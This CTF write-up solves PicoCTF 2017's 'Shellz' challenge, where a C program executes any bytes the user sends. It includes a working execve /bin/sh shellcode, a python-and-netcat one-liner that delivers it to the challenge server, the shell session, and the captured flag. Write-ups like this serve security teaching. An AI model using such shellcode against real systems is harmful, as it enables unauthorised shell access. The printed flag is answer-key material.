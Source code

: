 # PicoCTF 2017 - Level 2 - Shellz

**Category:** Binary **Points:** 55

**Description:**

> You no longer have an easy thing to call, but you have more space. Program: shellz! 
> Source. Connect on shell2017.picoctf.com:24630.

We are given the following code:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 40

//Learned my lesson! No more easy flags
/*void win(){
    system("/bin/cat ./flag.txt");    
}*/


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
```

In here, we see a char pointer 'stuff' is being created with a 40 byte length. This is
followed by a few lines where the program is printing a message to the user and reading
the user's input, which is then stored at the location of stuff. The most important line
to note is the following:

```
void (*func)() = (void (*)())stuff;
```

Here we see that a function is being called at the location of stuff, which coincidentally
is where we can write whatever we choose. Higher up in the code the function win shows
that we need to cat ./flag.txt, so if we can use the stuff execution to call /bin/cat
this should be fairly easy. The hint tells us we can find existing shellcode, so we can
search online. 

http://shell-storm.org/shellcode/

Looking around, we can see the shellcode scripts have byte lengths, so we want to find
something shorter. I chose this 21 byte code by IPV
http://shell-storm.org/shellcode/files/shellcode-575.php

We need to get this hex code into the server, so we'll use python and netcat. However,
if we attempt to send this code by itself, the server will close after receiving input.
In order to keep the connection open, we need to append "cat -" so that we can keep cat
looking for input from STDIN. Once we've added this, we can use the program as a shell
to cat our file.

```
$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; cat -) | nc shell2017.picoctf.com 24630
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
ls
flag.txt
shellz
shellz_no_aslr
xinetd_wrapper.sh
cat flag.txt
e7ab8af95673759fa3568c3c38098f16
```

And voila, our flag!

